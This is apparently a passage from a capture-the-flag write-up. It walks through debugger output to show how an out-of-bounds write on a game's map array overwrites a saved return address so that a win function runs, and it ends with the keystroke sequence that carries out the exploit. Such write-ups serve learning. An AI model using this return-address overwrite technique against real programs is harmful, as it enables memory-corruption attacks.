 ```console
    0x8049541 <move_player+205> nop    
    0x8049542 <move_player+206> lea    esp, [ebp-0x8]
    0x8049545 <move_player+209> pop    ebx
    0x8049546 <move_player+210> pop    esi
    0x8049547 <move_player+211> pop    ebp
───────────────────────────────────────────────────────────────────────────────── threads
[#0] Id 1, Name: "game", stopped 0x804953f in move_player (), reason: BREAKPOINT
─────────────────────────────────────────────────────────────────────────────────── trace
[#0] 0x804953f → move_player()
[#1] 0x8049709 → main()
```

Here `ebx` is pointing to `0xffffc413` - the address of `map`. If you look at the `stack` closesly. You will notice `<main+149> add esp, 0x10` on the address `0x08049709`. This is a return instruction in address `0xffffc3ec`. This is on the stack.

Let's compare `win`s address `0x0804975d`. And `main`s return address `0x08049709`. There is exactly a byte's difference. Thus if we overwrite on `0xffffc3ec` the address `0x0804975d`. **We will have called the win function!**

How do we write on `0xffffc3ec`? Well we know the address of `map`. Which is what `ebx` is pointing to. To get the offset from the start of `map`, we need to `0xffffc413 - 0xffffc3ec`. Which gives us `0x27` or `39` in decimal.

So if we move `39` bytes to the left from the start of `map`. We should we able to overwrite on `0xffffc3ec`. Programatically `map[-39] = 0x5d`. `0x5d` because thats the byte difference between `win` and the return address.


## Exploit

I tried moving `39` bytes to the left from the start of the map. But it gives a segfault. Which means we have to find a way to bypass this.

I noticed that if we press `w` we can go over the `map`. Also I pressed `a` from there and it didn't give a segfault.

Hence, the idea is to press `w` and go `39` bytes to the left. Then press `s`. This would translate to
```console
map[0] = '@'; //we go to the start of the map
map[-89] = '@'; //we press `w`
map[-128] = '@'; //we press `a` 39 times 39+89 = 128
map[-128] = ']'; // `]` is `0x5d` in ASCII
map[-39] = ']'; //we press `s`
```

This is the exploit line-by-line:
```console
aaaa
wwwww
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
l]
s
```
